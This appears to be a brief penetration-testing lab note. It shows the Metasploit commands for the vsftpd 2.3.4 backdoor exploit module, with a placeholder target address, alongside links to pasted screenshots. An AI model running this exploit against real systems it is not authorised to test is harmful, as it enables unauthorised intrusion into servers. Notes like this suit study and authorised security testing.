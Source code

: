 ![Pasted image 20250611103344](../zzAttachments/Pasted%20image%2020250611103344.png)
##### vsftpd 2.3.4 exploit (metasploit)
```
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts [IP]
```
![Pasted image 20250611103701](../zzAttachments/Pasted%20image%2020250611103701.png)
![Pasted image 20250611103737](../zzAttachments/Pasted%20image%2020250611103737.png)
